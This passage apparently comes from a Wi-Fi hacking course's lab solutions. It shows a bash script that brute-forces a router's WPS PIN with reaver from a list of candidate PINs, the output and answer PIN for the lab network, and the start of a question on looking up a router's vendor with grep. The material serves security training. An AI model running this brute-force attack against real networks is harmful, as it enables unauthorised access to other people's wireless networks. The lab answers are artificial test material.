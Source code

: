 
```
root@WiFiIntro:/home/wifi# cat << EOF > pinguess.sh
#!/bin/bash

PINS='54116696 35154778 88218458 35929178 67904853 98126934 83901010 24855044 92858114 51432669 16664913 13655464 08233387 62350075 96225462 55764247 34075920 12345670 20172527 46264848 76229909 62327145 10864111 31957199 30432031 71412252 68175542 95661469 95719115 48563710 20854836 43977680 05294176 99956042 35611530 67958146 34259283 94229882 95755212'

for PIN in \$PINS
do
   if sudo reaver --max-attempts=1 -l 100 -r 3:45 -i mon0 -b D8:D7:3D:EB:29:D5 -c 1 -p \$PIN > /dev/null 2>&1; then
            echo "[+] WPS PIN Found: \$PIN"
            break
   fi   
done
echo "PIN Guesses Complete"
EOF
```

Next, students will run the bash script to obtain the PIN of the `CyberNetSecure` network:

Code: shell

```shell
bash pinguess.sh
```

```
root@WiFiIntro:/home/wifi# bash pinguess.sh 

[+] WPS PIN Found: {hidden}
PIN Guesses Complete
```

Answer: `99956042`

# Using Multiple Pre-defined PINs

## Question 2

### "Perform a vendor lookup for the BSSID F8:CE:72:3A:D2:A1. What is the vendor’s name?"

Students will reuse the previously established RDP session and are going to scrutinize the `out.txt` located in the `/var/lib/ieee-data` directory to perform a vendor lookup by using the first portion of the `F8:CE:72:3A:D2:A1` MAC address:

Code: shell

```shell
grep -i "F8-CE-72" /var/lib/ieee-data/oui.txt
```

